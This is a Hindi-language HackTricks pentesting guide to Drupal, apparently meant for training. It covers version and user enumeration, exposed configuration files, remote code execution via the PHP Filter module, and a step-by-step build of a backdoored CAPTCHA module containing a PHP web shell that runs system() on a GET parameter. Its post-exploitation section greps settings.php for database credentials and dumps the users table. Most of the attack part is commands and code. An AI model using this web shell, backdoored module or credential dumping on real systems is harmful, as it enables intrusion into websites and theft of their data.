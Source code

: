 # ड्रुपल

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में** देखना चाहते हैं या **HackTricks को PDF में डाउनलोड** करना चाहते हैं तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें और PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


## खोज

* **मेटा** की जाँच करें
```bash
curl https://www.drupal.org/ | grep 'content="Drupal'
```
* **नोड**: ड्रुपल **अपनी सामग्री को नोड का उपयोग करके अनुक्रमित करता है**। एक नोड में कुछ भी हो सकता है, जैसे एक ब्लॉग पोस्ट, मतदान, लेख आदि। पृष्ठ URI सामान्यत: रूप में होते हैं `/node/<नोड आईडी>`।
```bash
curl drupal-site.com/node/1
```
## जांच

Drupal डिफ़ॉल्ट रूप से **तीन प्रकार के उपयोगकर्ता** का समर्थन करता है:

1. **`प्रशासक`**: इस उपयोगकर्ता के पास Drupal वेबसाइट पर पूरा नियंत्रण होता है।
2. **`प्रमाणीकृत उपयोगकर्ता`**: ये उपयोगकर्ता वेबसाइट में लॉग इन कर सकते हैं और अपनी अनुमतियों के आधार पर लेख जोड़ने और संपादन कर सकते हैं।
3. **`अनामत`**: सभी वेबसाइट आगंतुक अनामत के रूप में निर्धारित किए जाते हैं। डिफ़ॉल्ट रूप से, इन उपयोगकर्ताओं को केवल पोस्ट पढ़ने की अनुमति होती है।

### संस्करण

* `/CHANGELOG.txt` की जांच करें
```bash
curl -s http://drupal-site.local/CHANGELOG.txt | grep -m2 ""

Drupal 7.57, 2018-02-21
```
{% hint style="info" %}
ड्रुपल के नए स्थापनानुसार डिफ़ॉल्ट रूप से `CHANGELOG.txt` और `README.txt` फ़ाइलों तक पहुँच ब्लॉक की जाती है।
{% endhint %}

### उपयोगकर्ता गणना

#### पंजीकरण

_/user/register_ में एक उपयोगकर्ता नाम बनाने की कोशिश करें और यदि नाम पहले से लिया गया है तो सूचित किया जाएगा:

![](<../../.gitbook/assets/image (325).png>)

#### नया पासवर्ड अनुरोध

यदि आप किसी मौजूदा उपयोगकर्ता के लिए एक नया पासवर्ड अनुरोध करते हैं:

![](<../../.gitbook/assets/image (900).png>)

यदि आप किसी मौजूदा उपयोगकर्ता के लिए एक नया पासवर्ड अनुरोध करते हैं:

![](<../../.gitbook/assets/image (304).png>)

### उपयोगकर्ताओं की संख्या प्राप्त करें

_/user/\<number>_ तक पहुँचकर आप मौजूदा उपयोगकर्ताओं की संख्या देख सकते हैं, इस मामले में 2 है क्योंकि _/users/3_ एक खोज त्रुटि देता है:

![](<../../.gitbook/assets/image (330).png>)

![](<../../.gitbook/assets/image (227) (1) (1) (1).png>)

### छिपी पृष्ठ

**`/node/$` जहाँ `$` एक संख्या है** (1 से 500 तक उदाहरण के लिए)।\
आप **छिपी पृष्ठ** (परीक्षण, डेव) खोज संचार द्वारा संदर्भित नहीं किए गए हो सकते हैं।

#### स्थापित मॉड्यूल जानकारी
```bash
#From https://twitter.com/intigriti/status/1439192489093644292/photo/1
#Get info on installed modules
curl https://example.com/config/sync/core.extension.yml
curl https://example.com/core/core.services.yml

# Download content from files exposed in the previous step
curl https://example.com/config/sync/swiftmailer.transport.yml
```
### स्वचालित
```bash
droopescan scan drupal -u http://drupal-site.local
```
## RCE

### PHP फ़िल्टर मॉड्यूल के साथ

{% hint style="warning" %}
पुराने संस्करणों में ड्रुपल **(8 संस्करण से पहले)** में, एडमिन के रूप में लॉग इन करना संभव था और **`PHP फ़िल्टर` मॉड्यूल को सक्षम करना** था, जो "एम्बेडेड PHP कोड/स्निपेट को मूल्यांकित करने की अनुमति देता है।"
{% endhint %}

आपको **प्लगइन php स्थापित होना चाहिए** (इसे जांचने के लिए _/modules/php_ तक पहुंचें और यदि यह **403** लौटता है तो, **मौजूद है**, अगर **नहीं मिला**, तो **प्लगइन php स्थापित नहीं है**)

_मॉड्यूल_ पर जाएं -> (**जांचें**) _PHP फ़िल्टर_ -> _कॉन्फ़िगरेशन सहेजें_

![](<../../.gitbook/assets/image (247) (1).png>)

फिर _विषय जोड़ें_ पर क्लिक करें -> _बेसिक पेज_ या _लेख चुनें_ -> _शरीर पर php शैलकोड लिखें_ -> _पीएचपी कोड_ का चयन करें _पाठ स्वरूप_ में -> _पूर्वावलोकन का चयन करें_

![](<../../.gitbook/assets/image (335).png>)

अंत में, बस नए नोड पर पहुंचें:
```bash
curl http://drupal-site.local/node/3
```
### PHP फ़िल्टर मॉड्यूल इंस्टॉल करें

**8 के संस्करण से**, [**PHP फ़िल्टर**](https://www.drupal.org/project/php/releases/8.x-1.1) **मॉड्यूल डिफ़ॉल्ट रूप से इंस्टॉल नहीं है**। इस फ़ंक्शन का लाभ उठाने के लिए, हमें **मॉड्यूल खुद ही इंस्टॉल करना होगा**।

1. Drupal वेबसाइट से मॉड्यूल का सबसे हाल का संस्करण डाउनलोड करें।
2. wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
3. डाउनलोड होने के बाद **`प्रशासन`** > **`रिपोर्ट्स`** > **`उपलब्ध अपडेट्स`** पर जाएं।
4. **`ब्राउज़ करें`** पर क्लिक करें, फ़ाइल को चुनें जिसे हमने इसे डाउनलोड किया था, और फिर **`इंस्टॉल`** पर क्लिक करें।
5. एक बार जब मॉड्यूल इंस्टॉल हो जाए, हम **`सामग्री`** पर क्लिक कर सकते हैं और **नया बेसिक पेज बना सकते हैं**, जैसा कि हमने Drupal 7 उदाहरण में किया था। फिर से सुनिश्चित करें कि **`पाठ स्वरूप` ड्रॉपडाउन से `PHP कोड` का चयन करें**।

### बैकडोर्ड मॉड्यूल

एक बैकडोर्ड मॉड्यूल **मौजूदा मॉड्यूल में एक शैल जोड़कर बनाया जा सकता है**। मॉड्यूल drupal.org वेबसाइट पर मिल सकते हैं। चलिए एक मॉड्यूल चुनते हैं जैसे कि [CAPTCHA](https://www.drupal.org/project/captcha)। नीचे स्क्रॉल करें और tar.gz [आर्काइव](https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz) के लिए लिंक कॉपी करें।

* आर्काइव डाउनलोड करें और उसकी सामग्री निकालें।
```
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz
```
* निम्नलिखित सामग्री के साथ एक **PHP वेब शैल** बनाएं:
```php
<?php
system($_GET["cmd"]);
?>
```
* अगले, हमें फ़ोल्डर तक पहुँचने का अधिकार देने के लिए **`.htaccess`** फ़ाइल बनानी होगी। यह जरुरी है क्योंकि Drupal **`/modules`** फ़ोल्डर को सीधा पहुँच नहीं देता।
```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```
* ऊपर का विन्यास नीचे दिए गए नियमों को लागू करेगा जब हम /modules में एक फ़ाइल का अनुरोध करें। इन दोनों फ़ाइलों को captcha फ़ोल्डर में कॉपी करें और एक आर्काइव बनाएं।
```bash
mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/
```
* यह मानते हुए कि हमें वेबसाइट पर **प्रशासनिक पहुंच** है, **`Manage`** पर क्लिक करें और साइडबार पर **`Extend`** पर क्लिक करें। अगले, **`+ Install new module`** बटन पर क्लिक करें, और हमें स्थापित पृष्ठ पर ले जाया जाएगा, जैसे `http://drupal-site.local/admin/modules/install`। बैकडोर कैप्चा संग्रह को ब्राउज़ करें और **`Install`** पर क्लिक करें।
* स्थापना सफल होने पर, **`/modules/captcha/shell.php`** पर जाकर कमांड निष्पादित करने के लिए ब्राउज़ करें।

## पोस्ट एक्सप्लोइटेशन

### settings.php पढ़ें
```
find / -name settings.php -exec grep "drupal_hash_salt\|'database'\|'username'\|'password'\|'host'\|'port'\|'driver'\|'prefix'" {} \; 2>/dev/null
```
### डेटाबेस से उपयोगकर्ता डंप
```
mysql -u drupaluser --password='2r9u8hu23t532erew' -e 'use drupal; select * from users'
```
## संदर्भ

* [https://academy.hackthebox.com/module/113/section/1209](https://academy.hackthebox.com/module/113/section/1209)

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में** देखना चाहते हैं या **PDF में HackTricks डाउनलोड** करना चाहते हैं तो [**सब्सक्रिप्शन प्लान**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **जुड़ें** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में या हमें **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें और PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>
